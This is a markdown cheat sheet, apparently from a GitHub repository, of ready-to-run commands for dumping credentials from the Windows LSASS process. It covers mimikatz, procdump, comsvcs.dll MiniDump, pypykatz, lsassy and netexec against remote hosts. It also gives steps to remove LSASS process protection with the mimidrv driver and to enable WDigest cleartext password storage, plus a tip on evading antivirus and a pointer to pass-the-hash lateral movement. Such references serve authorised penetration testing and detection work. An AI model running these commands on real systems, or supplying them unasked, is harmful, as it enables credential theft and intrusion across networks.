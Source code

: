 # Extract credentials from LSASS

## Tools: CrackMapExec/Netexec , lsassy , mimikatz , meterpreter , procdump , PPLDump , GUI

#### 1) LSASS as a Protected Process (LSA Bypass, Mimidrv.sys)

    PPLdump64.exe LSASS.EXE|LSASS_PID lsass.dmp

    mimikatz "!+" "!processProtect /process:mimikatz.exe" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "!processprotect /process:lsass.exe:" "!-" 
    
#### 2) Procdump

    Procdump.exe -accepteula -ma lsass.exe lsass.dmp

    mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

#### 3) Meterpreter

    load kiwi

    creds_all

#### 4) Mimikatz

    mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"

#### 5) lsassy

    lsassy -d DOMAIN -u USER -p 'PASSWORD' IP

#### 6) CrackMapExec/Netexec

    netexec smb IP_RANGE -u USER -p 'PASSWORD' -M lsassy

#### 7) rundll32.exe (comsvcs.dll)

    tasklist | findstr lsass 

OR

    tasklist /fi "Imagename eq lsass.exe"

THEN

    C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump LSASS_PID C:\temp\LSASS.dmp

#### 8) Pypykatz

    pypykatz lsa minidump lsass.dmp

#### 9) WDigest

##### CMD (Enable), Requires user to log off/on or lock screen to store in cleartext

    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

###### CMD (Disable), System reboot required to complete

    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f

THEN

# Mimikatz (Everything)

    Invoke-Mimikatz -DumpCreds

# Mimikatx (Just WDigest)

    Invoke-Mimikatz -Command '"sekurlsa::wdigest"'

##### Lsassy

    lsassy -u '[User]' -p '[Password]' -d '[Domain]' '[Target-IP]' --users --exec smb

### With LSASS dumped, you can recover NTLM Hashes as well as clertext credentials to do Lateral Movement via Pass-the-Hash or Pass-the-Key

# DUMP LSASS PROCESS WITH TASK MANAGER (REQUIRES GUI)

#### 1) GUI (Right-click on lsass.exe in Task Manager)

#### 2) Create dump file

#### 3) Copy dump file to mimikatz folder

## Sysinternals suite (Procdump)

#### procdump.exe -accepteula -ma lsass.exe c:\tools\mimikatz\lsass_dump

## TIP: Bypass AV, write code to encrypt

## Mimikatz

#### 1) mimikatz

#### 2) privilege::debug

#### 3) sekurlsa::logonpasswords

# BYPASS LSASS PROTECTION

#### 1) mimikatz

#### 2) privilege::debug 

#### 3) !+ (Load mimidrv driver into memory)

#### 4) !processprotect /process:lsass.exe /remove

#### 5) sekurlsa::logonpasswords
